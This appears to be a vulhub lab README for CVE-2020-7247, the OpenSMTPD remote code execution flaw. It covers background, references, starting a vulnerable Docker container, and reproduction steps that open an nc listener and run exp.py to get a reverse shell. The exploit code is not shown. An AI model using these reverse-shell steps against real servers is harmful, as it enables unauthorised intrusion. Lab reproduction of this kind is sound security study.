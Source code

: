 # OpenSMTPD Remote Code Execution Vulnerability (CVE-2020-7247)

OpenSMTPD is an smtp service program for unix operating systems (BSD, MacOS, GNU/Linux), following the RFC 5321 SMTP protocol. OpenSMTPD was originally developed for the OpenBSD operating system and is part of the OpenBSD project. Due to its open source properties, Distributed to other unix platforms. According to the ISC license, the software is free for everyone to use and reuse.

`CVE-2020-7247` is caused by OpenSMTPD's lax verification of the sender/recipient in the process of implementing RFC 5321.

On January 29, 2020, OpenSMTPD group officially submitted a fix for the `CVE-2020-7247` in the GitHub repository. After the repair, the corresponding version is `OpenSMTPD 6.6.2p1`.

**Reference：**

- https://www.qualys.com/2020/01/28/cve-2020-7247/lpe-rce-opensmtpd.txt
- https://www.exploit-db.com/exploits/47984
- https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-7247
- https://www.anquanke.com/post/id/197689
- （Vulnerable source code）https://github.com/OpenSMTPD/OpenSMTPD/releases/tag/6.6.1p1

## Start Vulnerability Application

Start a vulnerable OpenSMTPD through following command:

```
docker-compose up -d
```

If success, you will see the following results with using command: `nc <Target_IP> 8825 -v`  (`44dadcc5a6eb` is the container ID )

```
220 44dadcc5a6eb ESMTP OpenSMTPD
```

Vulnerability Reproduce

This vulnerability did not return anything, so let's get the reverse shell.

1. Create a listen on local host: `nc -lp <Listen_Port> `
2. Using `exp.py` to get shell: `python3 exp.py <Target_IP> 8825 <Listen_IP> <Listen_Port>`

If the exploit is successful, you will see the following screen:

![image](https://github.com/CatAndCoffee/vulhub/blob/CVE-2020-7247/OpenSMTPD/CVE-2020-7247/image-20210415233036042.png)
